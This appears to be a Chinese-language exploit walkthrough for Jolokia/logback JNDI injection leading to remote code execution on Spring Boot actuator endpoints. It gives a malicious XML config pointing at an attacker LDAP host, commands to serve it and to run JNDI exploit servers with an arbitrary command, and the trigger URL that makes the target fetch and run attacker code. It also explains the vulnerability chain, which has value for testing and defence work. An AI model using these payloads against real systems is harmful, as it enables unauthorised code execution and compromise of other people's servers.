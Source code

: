 # jolokia logback JNDI RCE

## 利用条件：
- 目标网站存在 `/jolokia` 或 `/actuator/jolokia` 接口
- 目标使用了 `jolokia-core` 依赖（版本要求暂未知）并且环境中存在相关 MBean
- 目标可以请求攻击者的 HTTP 服务器（请求可出外网）
- 普通 JNDI 注入受目标 JDK 版本影响，jdk < 6u201/7u191/8u182/11.0.1(LDAP)，但相关环境可绕过

## 利用方法：
#### 访问 `/jolokia/list` 接口，查看是否存在 `ch.qos.logback.classic.jmx.JMXConfigurator` 和 `reloadByURL` 关键词 🚩
![](./img/jolokia:list.png)
#### 托管example.xml文件
example.xml:  
```xml
<configuration>
  <insertFromJNDI env-entry-name="ldap://your-vps-ip:1389/JNDIObject" as="appName" />
</configuration>
```
```shell
# 在xml文件目录开启http服务
python2 -m SimpleHTTPServer 80
python3 -m http.server 80
```
#### 架设恶意ldap服务
工具：[JNDIExploit-1.4-SNAPSHOT.jar](./file/JNDIExploit.v1.4.zip)
工具项目地址：https://github.com/WhiteHSBG/JNDIExploit
```bash
java -jar -jar JNDIExploit.jar -i VPS地址
```
工具：[JNDI-Injection-Exploit-1.0-SNAPSHOT-all.jar](./file/JNDI-Injection-Exploit-1.0-SNAPSHOT-all.jar) 
```bash
java -jar JNDI-Injection-Exploit-1.0-SNAPSHOT-all.jar -C "执行命令" -A VPS地址 
```
### 发送payload
替换实际的VPS地址,访问URL触发漏洞：
`http://x.x.x.x/jolokia/exec/ch.qos.logback.classic:Name=default,Type=ch.qos.logback.classic.jmx.JMXConfigurator/reloadByURL/http:!/!/vps地址!/example.xml`
> ⚠️ 如果目标成功请求了example.xml并且JNDI也接收到了目标请求，但是目标没有请求 JNDIObject.class，大概率是因为目标环境的 jdk 版本太高，导致 JNDI 利用失败。

## 漏洞原理：
1. 直接访问可触发漏洞的 URL，相当于通过 jolokia 调用 `ch.qos.logback.classic.jmx.JMXConfigurator` 类的 `reloadByURL` 方法
2. 目标机器请求外部日志配置文件 URL 地址，获得恶意 xml 文件内容
3. 目标机器使用 saxParser.parse 解析 xml 文件 (这里导致了 xxe 漏洞)
4. xml 文件中利用 `logback` 依赖的 `insertFormJNDI` 标签，设置了外部 JNDI 服务器地址
5. 目标机器请求恶意  JNDI 服务器，导致 JNDI 注入，造成 RCE 漏洞

## 漏洞分析：
[spring boot actuator rce via jolokia](https://xz.aliyun.com/t/4258)

## 漏洞环境：
[repository/springboot-jolokia-logback-rce](https://github.com/LandGrey/SpringBootVulExploit/tree/master/repository/springboot-jolokia-logback-rce)